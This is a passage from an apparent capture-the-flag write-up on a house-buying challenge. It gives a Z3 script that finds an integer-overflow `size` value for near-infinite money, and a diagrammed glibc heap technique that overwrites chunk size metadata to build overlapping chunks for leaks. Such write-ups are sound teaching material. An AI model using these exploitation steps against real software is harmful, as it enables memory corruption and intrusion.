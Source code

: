 # (Almost) Infinite Money
As previously mentioned, there is an integer overflow bug.  I asked my friend pernicious to write me a [Z3](https://github.com/Z3Prover/z3) script to figure out what `size` value would meet all the constraints.  We want `size * 218` to end up less than the amount of money we have, so we can actually make the purchase.  We also want `size << 6 > size * 218`, so that when we sell the house, we make a profit.
```python
from z3 import *

sz = BitVec("sz", 64)

s = Solver()

s.add(218 * sz <= 0x1c796)
s.add(sz<<6 > 218*sz)

print "solving..."
print s.check()
m = s.model()
print m
print hex(m[sz].as_long())
```
The script output `0x4b27ed3604b27fb`, which ended up achieving almost infinite money.

# Leaks
The program uses `calloc` for the `Buy House` option, which does not pull from [tcache](https://ctf-wiki.github.io/ctf-wiki/pwn/linux/glibc-heap/implementation/tcache/).  TL;DR, tcache is a per-thread structure that maintains a freelist for each chunk size from `0x20` to `0x410` (I am including space for metadata).  When chunks in that size range are freed, they are added to the tcache, unless that particular size has at least `7` tcache entries, in which case it falls back to the fastbin or unsorted bin.  But `calloc` will not pull from chunks in the tcache.

First, I allocated the following chunks, and then used one of the two `Upgrade`s on `Houses[0].house_desc` to overwrite the size metadata of `Houses[1].house_desc`, such that it absorbs the three chunks below it.  The region shaded with `//////////` is all part of that chunk.
```
+------------+------------+             +------------+------------+
|            |       0x91 |             |            |       0x91 |   +-----------+------+
+------------+------------+             +------------+------------+   | Houses[0] | 0x80 |
| aaaaaaaaaa | aaaaaaaaaa |  Upgrade()  | aaaaaaaaaa | aaaaaaaaaa |   +-----------+------+
| aaaaaaaaaa | aaaaaaaaaa | ----------> | aaaaaaaaaa | aaaaaaaaaa |
| aaaaaaaaaa | aaaaaaaaaa |             | aaaaaaaaaa | aaaaaaaaaa |
+------------+------------+             +------------+------------+
|            |       0x91 |             | aaaaaaaaaa |      0x1d1 |   +-----------+------+
+------------+------------+          +--+------------+------------+   | Houses[1] | 0x80 |
| ////////// | ////////// |          |  | ////////// | ////////// |   +-----------+------+
| ////////// | ////////// |          |  | ////////// | ////////// |
| ////////// | ////////// |          |  | ////////// | ////////// |
+------------+------------+          |  +------------+------------+
|            |       0x91 |          |  | ////////// |       0x91 |   +-----------+------+
+------------+------------+        N |  +------------+------------+   | Houses[2] | 0x80 |
| aaaaaaaaaa | aaaaaaaaaa |        e |  | ////////// | ////////// |   +-----------+------+
| aaaaaaaaaa | aaaaaaaaaa |        w |  | ////////// | ////////// |
| aaaaaaaaaa | aaaaaaaaaa |          |  | ////////// | ////////// |
+------------+------------+        C |  +------------+------------+
|            |       0x91 |        h |  | ////////// |       0x91 |   +-----------+------+
+------------+------------+        u |  +------------+------------+   | Houses[3] | 0x80 |
| aaaaaaaaaa | aaaaaaaaaa |        n |  | ////////// | ////////// |   +-----------+------+
| aaaaaaaaaa | aaaaaaaaaa |        k |  | ////////// | ////////// |
| aaaaaaaaaa | aaaaaaaaaa |          |  | ////////// | ////////// |
+------------+------------+          |  +------------+------------+
|            |      0x4b1 |          |  | ////////// |      0x4b1 |   +-----------+------+
```